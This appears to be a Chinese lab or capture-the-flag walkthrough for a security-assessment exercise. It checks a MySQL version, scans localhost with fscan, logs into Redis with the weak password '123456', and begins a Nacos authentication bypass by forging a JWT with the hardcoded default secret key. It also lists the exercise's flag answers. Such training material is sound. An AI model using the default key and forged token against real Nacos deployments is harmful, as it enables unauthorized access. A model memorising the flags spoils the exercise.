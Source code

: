     因为使用的是docker搭建的，命令行查询需进入容器内部，执行命令：  
docker ps，然后执行   
docker exec -it e7 bash，进入后执行  
mysql --version查询到版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqfD0c3ZQQtaITQH1fDgzgvm2pofiaxT4ibYIgnz0KngHqC3p9icDu2uib8g/640?wx_fmt=png&from=appmsg "")  
  
    在MySQL内部使用命令查询到版本：  
select @@version;   
或  
select version();  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqjUO7pACibBlMibKYttiappbMT7ic9G8bEb6VvtextQmRW0YsnNtz0b95SA/640?wx_fmt=png&from=appmsg "")  
  
**漏洞扫描**  
  
    漏洞扫描是等保测评的一部分，我们此处只进行模拟，在正常情况下，需使用国产承认漏扫设备或软件工具进行扫描出具报告，在系统中开启了相关的业务，但是由于开发的问题，未进行安全测试，直接搭建上线了，我们使用  
/root/fscan/fscan进行扫描本地  
127.0.0.1存在的漏洞进行验证  
```
问: 利用/root/fscan/fscan进行漏洞扫描，对存在漏洞的端口进行提交，多个端口以+连接
答: flag{6379+8848}
```  
  
    执行命令：  
./fscan -h 127.0.0.1  
 看到扫描出存在漏洞的端口为  
8848/nacos  
服务以及  
6379/redis  
存在的弱口令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDquJ0SiaNZsOZNraNUdtzvyEibAcRm3jEnvMcu9feykXE5zYUxR5FFpX0A/640?wx_fmt=png&from=appmsg "")  
  
     redis弱口令为123456，我们执行  
redis-cli -h 127.0.0.1  
登录验证成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqPmBwPic8KcBpwViaicdic07cGuSgFW1ELee4wmpf7HhLtfHgEiacOMXlZLQ/640?wx_fmt=png&from=appmsg "")  
```
问: 根据找到其中的一个应用服务漏洞，提交数据中的flag
答: flag{636ce4dc544036142a8e05a686b5c27e}
```  
  
    此处在正常渗透测试和漏洞挖掘过程有关联，在已知开放的端口且扫描出漏洞的情况下，需了解相关服务的作用，已知nacos存在权限绕过漏洞，我们利用此漏洞进行绕过  
  
    权限绕过因为它的key是写死的，默认key如下，访问https://jwt.io/  
```
SecretKey012345678901234567890123456789012345678901234567890123456789
```  
  
   
   输入默认key，然后将以下payload输入至payload框中，时间戳需大于你当前时间 https://tool.lu/timestamp/  
```
{
  "sub": "nacos",
  "exp": 1711208512
}
```  
  